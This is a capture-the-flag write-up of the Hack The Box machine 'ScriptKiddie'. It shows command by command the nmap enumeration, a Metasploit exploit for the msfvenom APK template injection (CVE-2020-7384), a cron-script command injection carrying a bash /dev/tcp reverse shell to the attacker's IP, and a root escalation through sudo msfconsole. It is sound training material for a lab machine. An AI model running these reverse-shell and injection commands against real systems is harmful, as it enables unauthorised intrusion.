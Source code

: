 ```yaml
---
title:     "Hack The Box - ScriptKiddie"
tags: [linux,easy,metasploit,command injection,sudo]
categories: HackTheBox
---
```

[![box card](/img/scriptkiddie/info_card.png)](/img/scriptkiddie/info_card.png)

ScriptKiddie is an easy rated machine on HackTheBox by [0xdf](https://www.hackthebox.eu/home/users/profile/4935). For the user part we will exploit a web application that let's us generate mfsvenom files with templates abusing [CVE-2020-7384](https://www.rapid7.com/db/modules/exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection/). This gives us a shell as the user `kid`, from whom we pivot to the user `pwn` abusing a running cronjob with another command injection. As `pwn` we can run `msfconsole` as root,  which let's us drop into a rootshell executing bash.

# User
## Nmap
As usual we start our enumeration on the target with an allports nmap scan to capture the whole attack surface, followed by a script and version detection scan to obtain more detailed information on the open ports.

`Nmap allports`

```
$ sudo nmap -p- -T4 10.129.153.127
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-29 06:12 UTC
Nmap scan report for 10.129.153.127
Host is up (0.073s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
5000/tcp open  upnp

Nmap done: 1 IP address (1 host up) scanned in 46.68 seconds
```

`Nmap script and version scan`

```
$ sudo nmap -p22,5000 -sC -sV 10.129.153.127
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-29 06:16 UTC
Nmap scan report for 10.129.153.127
Host is up (0.032s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-server-header: Werkzeug/0.16.1 Python/3.8.5
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.21 seconds
```

## Msfvenom template
Going over to the werbserver on port 5000 we can see that it is offering 3 different applications.

[![website](/img/scriptkiddie/website.png)](/img/scriptkiddie/website.png)

We can scan a host with nmap entering an ip, generate `msfvenom` payloads with templates and also perform a `searchsploit` search. Scanning localhost with the nmap service we don't get any additional information. The interesting thing here is the payload generation with a template because it is vulnerable to [CVE-2020-7384](https://www.rapid7.com/db/modules/exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection/).
This works by exploiting a command injection vulnerability in msfvenom when generating an `apk` payload with a template file.
In a first step we will generate the malicious apk file using the msf module `unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection`.

```
       =[ metasploit v6.0.44-dev                          ]
+ -- --=[ 2132 exploits - 1139 auxiliary - 363 post       ]
+ -- --=[ 596 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 8 evasion                                       ]

Metasploit tip: After running db_nmap, be sure to 
check out the result of hosts and services

[*] Starting persistent handler(s)...
msf6 > use unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > set lhost 10.10.14.7
lhost => 10.10.14.7
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > set lport 7575
lport => 7575
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > run

[+] msf.apk stored at /home/jack/.msf4/local/msf.apk
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > 
```

Next we set up our `ncat` listener on the selected port.

```
$nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
```

With preparations set we can now generate the `msfvenom` payload with our malicious `apk` template.

[![payload_web](/img/scriptkiddie/payload_web.png)](/img/scriptkiddie/payload_web.png)

After a short moment we get a hit back on our `ncat` listener and upgrade the shell. Now we can grab the user flag in `/home/kid`.

```
$ nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
Ncat: Connection from 10.129.153.127.
Ncat: Connection from 10.129.153.127:47952.
python3 -c 'import pty;pty.spawn("/bin/bash")'
kid@scriptkiddie:~/html$ export TERM=xterm
export TERM=xterm
kid@scriptkiddie:~/html$ ^Z
[1]+  Stopped                 nc -lnvp 7575
$ stty raw -echo;fg
nc -lnvp 7575

kid@scriptkiddie:~/html$ stty rows 55 cols 236
kid@scriptkiddie:~/html$
```

```
kid@scriptkiddie:~$ wc -c user.txt 
33 user.txt
```

# Root

## Command injection #2
Looking around in the other users home directory we find the script `scanlosers.sh`. This script reads the logfile in `home/kid/logs/hackers` takes the third argument in each row, seperated by a space and runs a nmap script against it. This is also vulnerable to a simple command injection, which we can use to gain a shell as the user pwn.

```
kid@scriptkiddie:/home/pwn$ cat scanlosers.sh 
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
```

First we set up our listener again.

```
$ nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
```

Then we place our command injection in the logfile and recieve an instant shell on the target.

```
kid@scriptkiddie:/home/pwn$ echo 'x x ;bash -c "bash -i >& /dev/tcp/10.10.14.7/7575 0>&1;"' > /home/kid/logs/hackers
```

We upgrade our shell again and continue on our way to root.

```
$ nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
Ncat: Connection from 10.129.153.127.
Ncat: Connection from 10.129.153.127:48198.
bash: cannot set terminal process group (803): Inappropriate ioctl for device
bash: no job control in this shell
pwn@scriptkiddie:~$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
pwn@scriptkiddie:~$ export TERM=xterm
export TERM=xterm
pwn@scriptkiddie:~$ ^Z
[1]+  Stopped                 nc -lnvp 7575
$ stty raw -echo;fg
nc -lnvp 7575

pwn@scriptkiddie:~$ stty rows 55 cols 236
pwn@scriptkiddie:~$
```

## Sudo on Metasploit

Checking the sudo permission we see that pwn can run msfconsole as root. Since we can issue os commands inside msf, this gives us an easy way to escalate to root.

```
pwn@scriptkiddie:~$ sudo -l
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
```

We start up msfconsole with sudo and execute `/bin/bash`.

```
pwn@scriptkiddie:~$ sudo /opt/metasploit-framework-6.0.9/msfconsole
```

This drops us into a rootshell and we can grab the rootflag.

```
msf6 > /bin/bash
[*] exec: /bin/bash

root@scriptkiddie:/home/pwn# id
uid=0(root) gid=0(root) groups=0(root)
root@scriptkiddie:/home/pwn# wc -c /root/root.txt
33 /root/root.txt
root@scriptkiddie:/home/pwn# 
```

